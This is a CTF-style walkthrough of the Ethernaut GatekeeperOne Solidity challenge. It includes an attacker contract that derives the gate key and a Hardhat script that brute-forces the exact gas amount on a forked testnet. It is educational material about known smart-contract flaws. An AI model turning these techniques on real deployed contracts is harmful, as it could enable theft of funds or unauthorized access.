


# Ethernaut Walkthrough: Gatekeeper One
## Welcome to KweenBirb's 14th installment of Ethernaut walkthroughs! 

Ethernaut is a set of gamified Solidity challenges in the style of a CTF, where each level features a hackable smart contract that will inform you of various known security vulnerabilities on EVM blockchains.

This repo will walk you through a solution to GatekeeperOne.sol, the 14th challenge in the series. You can find the challenge itself and fully fleshed out solution in the .txt and .sol files in this directory. Let's begin!

Ethernaut here instructs us to 'make it past the gatekeeper and register as an entrant to pass this level.' Sounds simple, but even though the contract is short and sweet it's sure to be a doozy.

## Working backwards

The objective of this challenge is to register as the public storage address entrant, so our first place to look is the enter() function:

```
function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
}
```

This is where we can update the entrant variable to reflect our tx.origin address. But to do so, we have to satisfy the three modifier functions and provide the correct key: a bytes8 _gateKey. Let's examine each gate in order.

## The gateOne() modifier

The first obstacle to calling the enter() function:

```
modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
}
```

This prevents EOA addresses from calling enter(). Instead, it must be done from a smart contract.

## The gateTwo() modifier

```
modifier gateTwo() {
    require(gasleft().mod(8191) == 0);
    _;
}
```

The global transaction function gasleft() is invoked, which returns the exact remaining gas at that step of tx execution. This quantity is then modulused against 8191 and must equal 0 in order to pass to the next gate! The implication here is that we're going to need such fine control over the gas consumed that we can nail a quantity divisible by 8191 mid-transaction.

That would truly be a feat of impeccable accuracy! While we could identify every single opcode fired by the EVM leading up to this point of the transaction, calculate the associated gas cost of each code, sum them up to find the distance to the nearest multiple of 8191, and then insert arbitrary computation to hit that exact value...

There's a better way. Brute force tends to speed these kinds of things along. But brute forcing anything on-chain is going to be expensive so we'll have to resort to off-chain methods. We'll come back to that later, since we'll want to do the brute forcing last (after we've discovered what key we need to satisfy the gateThree() modifier).

## The gateThree() modifier

The gateThree() modifier takes a bytes8 parameter _gateKey that must pass through three lines of require() checks. In reverse engineering what our bytes8 _gateKey must be, the third line tells us what value to begin with:

```
require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
```

The tx.origin EOA address is our starting value and we lop off the final two bytes by typecasting it into a uint16. This uint16 value is what we need the little endian half of the _gateKey to match, since _gateKey is typecast to uint32. For example if EOA tx.origin is the following default address from Remix:

```0x5B38Da6a701c568545dCfcB03FcB875f56beddC4```

Then the ```uint16(tx.origin)``` will be: ```0xddC4``` 

Looking at the left half of this require line, ```uint32(uint64(_gateKey))``` leads us to infer that the little endian half of _gateKey must look like this:

```0x0000ddC4```

Moving on to the second require() line, we see a check that informs us about the big endian half of _gateKey:

```require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
```

This tells us that the uint64 value of the _gateKey must not match the little endian half of _gateKey; or more simply put: the big endian half of _gateKey cannot be 0. To satisfy this, we just add a nonzero value anywhere in the big endian half- for example:

```0x100000000000ddC4```

Finally, looking over the first require() line we see a similar check to the third line:

```
require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
```

This combined with the third require check reinforces that uint64(_gateKey) is identical to tx.origin and that the little endian half of _gateKey must be equal to the uint16 value of tx.origin's last two bytes. This confirms that our example _gateKey we had just come up with above satisfies all three checks. Here is the hard-coded value again:

```0x100000000000ddC4```

But let's avoid hard-coded values and derive a working solution replicating the process above, regardless of the caller address:

```
// derive gateKey by reverse engineering gateThree
uint64 LEhalf = uint64(uint16(uint160(msg.sender)));
uint64 REhalf = uint64(bytes8(0x1000000000000000));
bytes8 gateKey = bytes8(LEhalf + REhalf);
```

## Deploy the smart contract

Now that we have the _gateKey to unlock gateThree() let's write and deploy a contract with a function that uses _gateKey to breakIn() to GatekeeperOne using a specified gas amount:

```
// @param provide the gasAmount that was brute forced by brute-force.js to match the modulused gas amount when reaching gateTwo()
function breakIn(uint gasAmount) public {
    // derive gateKey by reverse engineering gateThree
    uint64 LEhalf = uint64(uint16(uint160(msg.sender)));
    uint64 REhalf = uint64(bytes8(0x1000000000000000));
    bytes8 gateKey = bytes8(LEhalf + REhalf);
    // leave 8191 gasleft by the time the second modifier is executed
    gatekeeperOne.enter{ gas: gasAmount }(gateKey);
}
```

Phew! All that's left is to write the brute-force script to identify how much gas to provide to the transaction.


## Dipping into javascript with Hardhat

While I'm always a huge proponent of Paradigm's Foundry framework for all things blockchain, occassionally a need for off-chain code does arise. Foundry is configured for developers to write all their code in Solidity but if we're going to do some computation-intensive scripting we have to rely on an off-chain language like javascript.

The two primary javascript frameworks for EVM blockchains are Truffle + Ganache and Hardhat. In this case, we'll be using Hardhat. Make sure you have npm and a suitable version of nodejs installed!

```npx hardhat``` will give you the options to configure your repo as you prefer: I like to manage environment variables using the dotenv library since it's plenty secure enough for this sort of thing, so a .gitignore is necessary in my case.

```npm install dotenv``` will give us easy-to-use ways of loading sensitive environment variables like a private key and rpc-url api endpoint for a rinkeby node.

The handy dotenv library integrates into the hardhat.config.js file seamlessly with one import at the top:

```require('dotenv').config()```

This allows us to call on environment variables located in a root .env file using dotenv within the hardhat config:

```
module.exports = {
  solidity: "0.6.0",
  networks: {
    rinkeby: {
      url: process.env.RINKEBY_URL,
      accounts: [process.env.PRIVATE_KEY]
    },
    hardhat: {
      chainId: 1337
    }
  }
};
```

We'll be using the nomiclabs hardhat-ethers dependency later on, so let's get that installed and added to the hardhat.config.js now:

```npm install --save-dev @nomiclabs/hardhat-ethers```
```require("@nomiclabs/hardhat-ethers");```

Don't forget that Ethernaut's GatekeeperOne contract relies on OpenZeppelin's SafeMath library so we have to install those dependencies as well:

```npm install @openzeppelin/contracts```

## Writing the brute-force.js script

With everything configured properly for Hardhat, we can move on to writing the script that will rapidly brute force function calls until the exact gas amount needed to pass the gateTwo() modifier is identified. To start we should fetch the compiled contract abi, invoke hardhat, and set up dotenv:

```
const abi = require('../artifacts/contracts/GatekeeperOne.sol/Entrant.json');
const hre = require('hardhat');
require('dotenv').config()
```

Then we should set our deployed Entrant contract as target using dotenv, prepare a transaction signer, and instantiate the contract:

```
async function main() {
    //set target deployed Entrant contract address in .env
    const address = process.env.TARGET;
    const [signer] = await hre.ethers.getSigners();
    const contract = new hre.ethers.Contract(address, abi.abi, signer);
}
```

With everything required to conduct a transaction in order, we begin firing off transactions to find one that doesn't revert (by being divisible by 8191):

```
for (i = 0; i < 8192; i++) {
        try {
            await contract.breakIn(120000 + i);
            break;
        } catch(e) {}
    }
    console.log(i)
```

All in all, our script file looks as such:

```
const abi = require('../artifacts/contracts/GatekeeperOne.sol/Entrant.json');
const hre = require('hardhat');
require('dotenv').config()

async function main() {
    //set target deployed Entrant contract address in .env
    const address = process.env.TARGET;
    const [signer] = await hre.ethers.getSigners();
    const contract = new hre.ethers.Contract(address, abi.abi, signer);
    
    for (i = 0; i < 8192; i++) {
        try {
            await contract.breakIn(120000 + i);
            break;
        } catch(e) {}
    }
    console.log(i)
}

main()
```

## Forking, deploying, and brute-forcing
###### (that's what she said)

Next, we need to fork the rinkeby state so we don't need to pay a crapton of gas on submitting 8191 transactions to find the correct amount:

```npx hardhat node --fork https://rinkeby.infura.io/v3/$your_rpc_url_api_key```

and then run the script on our forked network:

```npx hardhat run scripts/deploy-entrant.js --network localhost```

Provided all went smoothly, you'll see something like the following to confirm our localhost deployment and populate the .env file for brute-force.js to access:



Once we've deployed our malicious contract, we can hack away with the brute-force.js script using:

```npx hardhat run scripts/brute-force.js --network localhost```

Which after submitting thousands of reverted transactions on our localhost node will hit a correct gasAmount that doesn't revert and then will console.log() the correct amount of gas to provide as the parameter to our malicious contract's breakIn() function!



All that's left to do is deploy our hacker code to Ethernaut's testnet chain and call the breakIn() function with the amount we discovered.

Brilliant!

○•○ h00t h00t ○•○